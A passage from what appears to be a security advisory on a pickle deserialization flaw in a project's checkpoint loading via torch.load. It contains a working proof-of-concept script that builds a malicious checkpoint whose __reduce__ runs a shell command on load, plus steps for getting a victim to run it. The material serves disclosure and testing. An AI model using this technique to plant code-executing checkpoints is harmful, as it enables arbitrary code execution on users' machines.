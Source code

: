     - When a script calls `load_from_checkpoint` with a path to a malicious checkpoint file, `torch.load` will be invoked, and if the checkpoint is crafted to include malicious serialized objects, code execution will occur during the loading process, before the model is even used.
- **Security Test Case:**
    1. **Malicious Checkpoint Creation (`malicious_ckpt_gen.py`):**
        ```python
        import torch
        import subprocess
        import pickle

        class MaliciousCheckpoint:
            def __reduce__(self):
                return (subprocess.Popen, (('echo', 'зломано'),)) # Executes 'echo зломано' command

        malicious_ckpt = MaliciousCheckpoint()
        checkpoint_data = {'state_dict': malicious_ckpt, 'hparams': {'model': 'bert-base-cased'}} # Include hparams to mimic real checkpoint
        torch.save(checkpoint_data, 'malicious_checkpoint.ckpt')
        ```
        - Save the above code as `malicious_ckpt_gen.py`.
        - Run `python malicious_ckpt_gen.py` to generate `malicious_checkpoint.ckpt`. This script creates a checkpoint file that, when loaded, will attempt to execute the command `echo зломано`.

    2. **Victim Execution:**
        - Assume the attacker distributes `malicious_checkpoint.ckpt` (e.g., via a compromised website or email).
        - The victim downloads `malicious_checkpoint.ckpt` and places it in the project directory.
        - The victim executes the `test.py` script, pointing it to the malicious checkpoint:
        ```bash
        python test.py --ckpt malicious_checkpoint.ckpt
        ```

    3. **Verification of Code Execution:**
        - After running the `test.py` command with the malicious checkpoint, observe the console output.
        - If the vulnerability is successfully exploited, the output "зломано" (or equivalent depending on system and command) will be printed to the console, indicating arbitrary code execution.
        - Note: The exact output and success might depend on the environment and permissions. A more robust test might involve a command that creates a file or performs a network request to definitively prove code execution. However, for demonstration purposes, `echo` is sufficient.
